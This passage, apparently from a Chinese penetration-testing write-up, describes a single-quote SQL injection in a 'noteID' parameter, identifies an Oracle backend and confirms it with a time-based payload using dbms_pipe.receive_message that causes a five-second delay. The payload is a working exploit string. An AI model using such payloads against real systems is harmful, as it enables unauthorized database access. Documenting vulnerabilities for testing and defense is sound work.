 其中的noteID参数存在单引号字符型注入，这里因为是纯回显的，所以就能直接判断出为oracle数据库

![image.png](assets/1701153934-3b99c78491a58181e71b0e2709740638.png)

其中payload：

6340d33754bf402798a6051733698a3c'+and+1=dbms\_pipe.receive\_message('RDS',5)--，成功延时5秒：

![image.png](assets/1701153934-502310138441b9cd70e05dd09ed8591e.png)
